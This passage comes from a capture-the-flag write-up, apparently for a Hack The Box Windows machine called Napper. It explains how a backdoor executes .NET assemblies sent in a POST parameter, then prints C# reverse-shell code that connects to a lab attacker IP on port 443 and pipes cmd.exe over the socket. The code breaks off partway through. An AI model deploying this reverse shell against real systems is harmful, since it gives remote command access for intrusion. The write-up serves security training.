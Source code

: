 Also, we are said that any POST request that contains a base64-encoded .NET assembly in the parameter sdafwe3rwe23, it will be executed on memory.

![POST request with special parameter](/assets/images/Napper/post_request_with_special_parameter.png)

So we can try to execute command on the machine with this backdoor.

# Access as ruben

For using this backdoor, we need a C# assembly code and a compiler. In this case I will use the code that generates [revshells.com](https://revshells.com) but we have to modify some things. In first place, we have to change sh to cmd because this is a windows machine, rename the namespace to the same name of the file (in my case Program) and replace the content of the main function to `new Run();` and above create that function with the content that we removed from main function. With these changes, the remaining C# code is this:

```csharp
using System;
using System.Text;
using System.IO;
using System.Diagnostics;
using System.ComponentModel;
using System.Linq;
using System.Net;
using System.Net.Sockets;


namespace Program
{
	public class Run
	{
		static StreamWriter streamWriter;

    public Run()
    {
      using(TcpClient client = new TcpClient("10.10.14.76", 443))
      {
        using(Stream stream = client.GetStream())
        {
          using(StreamReader rdr = new StreamReader(stream))
          {
            streamWriter = new StreamWriter(stream);
            
            StringBuilder strInput = new StringBuilder();

            Process p = new Process();
            p.StartInfo.FileName = "cmd";
            p.StartInfo.CreateNoWindow = true;
            p.StartInfo.UseShellExecute = false;
            p.StartInfo.RedirectStandardOutput = true;
            p.StartInfo.RedirectStandardInput = true;
            p.StartInfo.RedirectStandardError = true;
            p.OutputDataReceived += new DataReceivedEventHandler(CmdOutputDataHandler);
```